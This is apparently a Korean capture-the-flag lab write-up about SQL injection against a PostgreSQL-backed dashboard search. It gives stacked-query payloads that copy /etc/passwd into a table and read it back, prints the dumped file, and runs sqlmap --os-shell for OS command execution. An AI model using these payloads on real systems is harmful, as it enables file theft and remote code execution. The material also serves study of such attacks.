 아래의 쿼리는 문제와는 상관없는데 다음에 써먹을 일이 있을까 싶어서 해봤다. 테이블을 `CREATE`하고, 파일 내용을 `COPY`해와서 읽을 수 있다.

```
[*] search : Elixir';CREATE TABLE temp (t TEXT);COPY temp FROM '/etc/passwd';
[*] search : Elixir' UNION SELECT null,null,null,null,t FROM temp;
[*] result : irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
			games:x:5:60:games:/usr/games:/usr/sbin/nologin
			lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
			sync:x:4:65534:sync:/bin:/bin/sync
			root:x:0:0:root:/root:/bin/bash
			gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
			systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
			ftp:x:112:118:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
			syslog:x:104:110::/home/syslog:/usr/sbin/nologin
			sys:x:3:3:sys:/dev:/usr/sbin/nologin
			backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
			postgres:x:111:117:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
			systemd-network:x:101:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
			simon:x:1000:1000:simon:/home/simon:/bin/bash
			bin:x:2:2:bin:/bin:/usr/sbin/nologin
			daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
			man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
			lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
			landscape:x:108:114::/var/lib/landscape:/usr/sbin/nologin
			systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
			sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
			mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
			tcpdump:x:107:112::/nonexistent:/usr/sbin/nologin
			list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
			uuidd:x:106:111::/run/uuidd:/usr/sbin/nologin
			ftpuser:x:1002:1002:,,,:/home/ftpuser:/bin/sh
			pollinate:x:109:1::/var/cache/pollinate:/bin/false
			nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
			www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
			messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
			_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
			uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
			news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
			systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
			proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
```

injection 포인트를 발견했으면 어떻게 쉘을 실행시킬지, RCE를 할 수 있을지를 알아봐야 한다. 

`Postgresql command execution`, `Postgresql RCE` 등 검색해보면 자료들이 나오지만, `sqlmap`을 사용하면 편리하게 쉘을 실행시킬 수 있다. 사실 injection이 의심되는 곳에 `sqlmap`을 먼저 돌려봐도 괜찮다.

`sqlmap`의 `--os-shell`이라는 옵션은 웹 서버에 WebShell을 업로드하고 그 쉘과 interact 할 수 있게 해준다.

``` bash
root@kali:~# sqlmap -u "http://10.10.10.46/dashboard.php?search=Elixir" --cookie="PHPSESSID=re0iuha9bk36svlhqmijgod9h1" --os-shell
...
---
[11:10:24] [INFO] the back-end DBMS is PostgreSQL
back-end DBMS: PostgreSQL
[11:10:24] [INFO] fingerprinting the back-end DBMS operating system
[11:10:24] [INFO] the back-end DBMS operating system is Linux
[11:10:25] [INFO] testing if current user is DBA
[11:10:26] [INFO] retrieved: '1'
[11:10:26] [INFO] going to use 'COPY ... FROM PROGRAM ...' command execution
[11:10:26] [INFO] calling Linux OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> whoami
do you want to retrieve the command standard output? [Y/n/a] a
[11:10:47] [INFO] retrieved: 'postgres'
```